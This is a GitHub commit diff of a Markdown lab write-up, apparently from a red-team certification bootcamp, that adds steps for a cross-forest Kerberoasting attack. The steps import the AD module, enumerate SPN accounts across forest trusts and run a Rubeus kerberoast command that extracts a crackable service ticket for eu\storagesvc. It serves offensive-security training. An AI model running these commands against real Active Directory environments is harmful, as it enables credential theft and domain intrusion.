

Before and after one commit to brianyaucy/PA-CRTEBootcamp, a Markdown page: l22-CrossForestKerberoast.md, the part around the change printed below. Shown: that part at 88% size. Rendered like a GitHub page; pictures changed too: images/2ebcaca9b13307f4ecfee9aa85621e94afd7190a4721d2bd2417c3cdad91a564.png (added), images/ceb784310189b284a29e5303ab06b13720c8fdf08ec63b597b47de2ca53d9920.png (added); blank space fills up the shorter version.

````diff
--- a/l22-CrossForestKerberoast.md
+++ b/l22-CrossForestKerberoast.md
@@ -15,3 +15,32 @@ Find a service account in the eu.local forest and Kerberoast its password.
 ---
 
 ## Find a service account in the eu.local forest and Kerberoast its password
+
+First import AD Module:
+
+```
+Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
+```
+
+<br/>
+
+Enumerate named service accounts across the forests:
+
+```
+Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
+```
+
+![picture 37](images/2ebcaca9b13307f4ecfee9aa85621e94afd7190a4721d2bd2417c3cdad91a564.png)
+
+- `eu\storagesvc` has a SPN `MSSQLSvc/eu-file.eu.local`
+
+<br/>
+
+To request a TGS of the above:
+
+```
+C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:eu-storagesvc.txt
+```
+
+![picture 38](images/ceb784310189b284a29e5303ab06b13720c8fdf08ec63b597b47de2ca53d9920.png)
+
````
Also changed, not shown: other parts of l22-CrossForestKerberoast.md (+21 -0 lines), images/18b021f4f9fae6e480dd86b37835ed2c3f9d36cf23d34f1d584f9e6da140617c.png (added), images/78c5e7e0b37bd1d57b255226aa97d4760c8f9941560eb91bfa347742c531e22d.png (added).
